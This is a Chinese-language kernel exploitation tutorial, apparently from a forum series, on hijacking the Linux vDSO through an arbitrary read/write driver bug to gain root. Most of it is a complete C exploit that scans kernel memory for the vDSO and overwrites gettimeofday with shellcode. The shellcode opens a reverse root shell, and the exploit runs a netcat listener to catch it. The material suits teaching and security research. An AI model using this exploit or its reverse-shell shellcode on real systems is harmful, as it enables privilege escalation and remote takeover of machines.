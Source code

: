 # linux 内核提权总结(demo+exp分析) -- 任意读写(二)


[发表于看雪论坛](https://bbs.pediy.com/user-839858.htm)

## hijack_vdso篇

+ vdso: 内核实现的一个动态库，存在于内核，然后映射到用户态空间，可由用户态直接调用

    + 内核中的vdso如果被修改，那么用户态空间的vdso也会同步被修改

+ 攻击流程
    1. (内核任意代码执行漏洞)内核调用set_memory_rw 函数修改内核vdso页面属性，使得用户态可以直接修改vdso，劫持vdso为shellcode，触发条件同1
    2. (内核任意读写漏洞)内核修改内核vdso数据，写入shellcode，使得用户态vdso中函数被劫持，当高权限进程调用vdso中特定函数时，触发shellcode，本篇只讲解攻击流程2

### 一. 利用步骤

#### 1. 定位内核态vdso位置

+ vdso中存在一些比较有特点的字符串，比如"gettimeofday"，在拥有任意读漏洞的前提下，从0xffffffff80000000(开启kaslr后内核基地址在此地址基础上往上偏移)开始按页搜索内存

+ 如果内存其他地方存在"gettimeofday"字符串，且出现在vdso之前，则会返回错误地址。所以在内存搜索时，应以返回地址为起始，使用gdb dump 0x2000 内存，使用ida查看是否是vdso，如果不是，可以忽略这个错误地址，继续向下搜索。

+ 得到真正的vdso后，查看"gettimeofday"与vdso起始地址的偏移，后续匹配vdso时，加上这个偏移条件

#### 2. 向内核中vdso写入shellcode

+ shellcode功能: 判断进程是否具有root权限，如果成立，则开辟新进程用来反弹root shell

+ shellcode写入位置: 定位vdso上某函数，比如gettimeofday函数，使用shellcode覆盖

+ shellcode触发条件: 当高权限进程调用gettimeofday函数时，自动执行shellcode 反弹root shell

### 二. 驱动代码(见cred篇)

### 三. exp

``` c
#define _GNU_SOURCE

#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/auxv.h>

#define CHANGE_POINT 0x100000
#define RW_READ 0x100001
#define RW_WRITE 0x100002
#define SET_MEM 0X100003

struct vunl
{
    char *point;
    size_t size;
} VUNL;

char shellcode[] =  "\x90\x53\x48\x31\xC0\xB0\x66\x0F\x05\x48\x31\xDB\x48\x39\xC3\x75"
                    "\x0F\x48\x31\xC0\xB0\x39\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x09"
                    "\x5B\x48\x31\xC0\xB0\x60\x0F\x05\xC3\x48\x31\xD2\x6A\x01\x5E\x6A"
                    "\x02\x5F\x6A\x29\x58\x0F\x05\x48\x97\x50\x48\xB9\xFD\xFF\xF2\xFA"
                    "\x80\xFF\xFF\xFE\x48\xF7\xD1\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x2A"
                    "\x58\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x07\x48\x31\xC0\xB0\xE7"
                    "\x0F\x05\x90\x6A\x03\x5E\x6A\x21\x58\x48\xFF\xCE\x0F\x05\x75\xF6"
                    "\x48\x31\xC0\x50\x48\xBB\xD0\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7"
                    "\xD3\x53\x48\x89\xE7\x50\x57\x48\x89\xE6\x48\x31\xD2\xB0\x3B\x0F"
                    "\x05\x48\x31\xC0\xB0\xE7\x0F\x05";


char *leak_data(int fd, char *buf)
{
    char *res = NULL;

    VUNL.size = 0x1000;
    for (size_t addr = 0xffffffff80000000; addr < 0xffffffffffffffff; addr += 0x1000)
    {
        VUNL.point = (char *)addr;

        ioctl(fd, CHANGE_POINT, &VUNL); //change the point
        ioctl(fd, RW_READ, buf);
        printf("addr is: %p, context is: 0x%lx\n", VUNL.point, *(size_t *)buf);
        if (!strcmp("gettimeofday", buf + 0x2b5))
        {
            res = (char *)addr;
            break;
        }
        
        puts("[-] not found, try again!\n");
    }
    return res;
}

int check_vdso_shellcode()
{
    size_t addr = 0;
    addr = getauxval(AT_SYSINFO_EHDR);
    if (addr < 0)
    {
        puts("[-] can not get VDSO addr\n");
        return 0;
    }
    printf("[+] usr::VDSO addr is: 0x%lx\n", addr);
    if (memmem((char *)addr, 0x1000, shellcode, strlen(shellcode)))
    {
        return 1;
    }
    return 0;
}

int main()
{
    int fd = 0;
    char *buf = malloc(0x1000);

    fd = open("/dev/rw_any_dev", O_RDWR);
    VUNL.point = (char *)leak_data(fd, buf);
    VUNL.size = strlen(shellcode);
    VUNL.point = VUNL.point + 0xb00;
    ioctl(fd, CHANGE_POINT, &VUNL);
    ioctl(fd, RW_WRITE, shellcode);
    printf("[+] hook in %p\n", VUNL.point);
    
    if (check_vdso_shellcode())
    {
        puts("[+] the shellcode has hook in VDSO");
        system("nc -lp 3333");
    }
    else
    {
        puts("[-] error!");
    }

    return 0;
}
```



